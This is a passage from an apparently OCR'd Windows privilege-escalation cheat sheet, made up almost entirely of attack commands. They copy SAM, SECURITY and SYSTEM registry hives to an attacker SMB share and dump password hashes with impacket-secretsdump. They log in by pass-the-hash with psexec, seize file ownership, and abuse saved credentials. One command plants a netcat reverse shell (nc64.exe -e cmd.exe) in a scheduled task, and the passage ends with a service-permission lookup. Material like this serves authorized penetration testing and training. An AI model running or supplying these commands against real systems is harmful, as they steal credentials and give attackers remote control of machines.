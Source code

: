 ```nix
# 10.10.10.10 is our (attacker) IP
copy C:\\Temp\\security.save \\\\10.10.10.10\\public
```

```nix
# 10.10.10.10 is our (attacker) IP
copy C:\\Temp\\system.save \\\\10.10.10.10\\public
```

Retrieve user password hashes

```nix
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

Login as the new elevated user

```nix
impacket-psexec -hashes [HASH] username@10.10.10.10
```

### Abuse SeTakeOwnership

```nix
takeown /f C:\\inetpub\\wwwwroot\\web.config
```

```nix
icacls C:\\inetpub\\wwwwroot\\web.config /grant attacker:F
```

### Abuse saved Windows credentials

```nix
runas /savecred /user:[USERNAME] cmd.exe
```

### Abuse scheduled tasks write permissions

```nix
echo C:\\Tools\\nc64.exe -e cmd.exe 10.10.10.10 4444 > C:\\Tasks\\schtask.bat
```

```nix
# Force run the scheduled task
schtasks /run /tn [TASK NAME]
```

### Abuse insecure permission on Windows service executable

```nix
C:\\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\\PROGRA~2\\SYSTEM~1\\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\\svcuser1
```
